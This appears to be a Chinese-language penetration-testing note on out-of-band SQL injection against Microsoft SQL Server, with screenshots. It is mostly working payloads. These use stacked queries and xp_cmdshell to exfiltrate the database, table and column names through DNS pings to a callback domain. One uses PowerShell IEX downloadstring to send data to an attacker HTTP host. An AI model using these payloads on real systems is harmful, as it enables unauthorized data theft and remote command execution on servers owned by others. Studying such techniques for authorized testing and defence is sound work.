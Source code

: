 ###### ①获取数据库

```mssql
id=1;declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

![](http://113.45.142.235:9001/laffrex/pictures/DNS%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE%E5%BA%93.png)

###### ②获取表

```sql
#1. 获取当前表名
   id=1;declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
#2. 获取所有表名 
   id=1;declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables where table_name not in (select top 2 table_name from information_schema.tables)) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --
```

![](http://113.45.142.235:9001/laffrex/pictures/DNS%E8%8E%B7%E5%8F%96%E8%A1%A8.png)

![](http://113.45.142.235:9001/laffrex/pictures/3d3e0268518c770bb541b03d30044e1b.png)

###### ③获取字段

```sql
#1.获取当前字段名
   id=1;declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
#2.获取所有字段名
	id=1;declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns where column_name not in (select top 2 column_name from information_schema.columns)) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

![](http://113.45.142.235:9001/laffrex/pictures/fc4f904f2105c14f1f4ce16dd93c068b.png)

![](http://113.45.142.235:9001/laffrex/pictures/5d5e9f9f7b832571b9e846c0b7e9f8c4.png)

###### ④具体数据

****

##### b. HTTP

###### ①数据库名

```sql
id=1;declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.72.12:8000?data='%2b@a%2b''')"') --+
```

![](http://113.45.142.235:9001/laffrex/pictures/HTTP%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE%E5%BA%93.png)
